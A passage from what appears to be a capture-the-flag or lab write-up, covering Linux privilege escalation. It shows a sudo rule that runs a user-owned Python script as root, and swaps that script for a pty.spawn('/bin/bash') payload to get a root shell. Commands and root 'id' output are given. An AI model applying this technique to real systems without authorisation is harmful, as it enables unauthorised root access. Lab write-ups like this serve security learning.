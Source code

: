### Priv Esc

`sudo -l` .

<figure><img src=".gitbook/assets/image (414).png" alt=""><figcaption></figcaption></figure>

We can't modify the file but it is in cyber home dir, meaning he can delete and replace it with a malicious python file, execute it as root and get root shell.

```bash
rm run.py
nano run.py

# contents
import pty

pty.spawn("/bin/bash")

chmod +x run.py
```

Now when we run as sudo we get root.

```bash
cyber@ubuntu:~$ sudo -u root /usr/bin/python3 /home/cyber/run.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# 


```

Done!

